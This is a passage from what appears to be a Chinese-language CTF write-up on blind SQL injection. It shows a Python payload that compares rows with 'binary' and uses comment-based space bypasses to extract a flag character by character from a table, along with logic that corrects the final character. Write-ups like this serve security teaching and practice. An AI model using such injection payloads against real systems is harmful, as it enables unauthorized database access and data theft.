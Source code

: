 通过这两个可以得到

```python
"ctf/users"
"ctf/f1aggghere"
```

然后对`flag`表的列数进行test，发现有2列。第一列就遇到了类型的问题。

然后爆flag即可：

```python
payload="1'^(('1',binary'{}')<(table/**/f1aggghere))#".format(flag+j)
```

加上binary区分大小写。



最后的判断：

```python
        if j == "~":
            flag = flag[:len(flag)-1]+chr(ord(flag[-1])+1)
            print(flag)
            exit()
```

其实就是上面提到的坑点二，用来纠正最后一位的ascii-1。
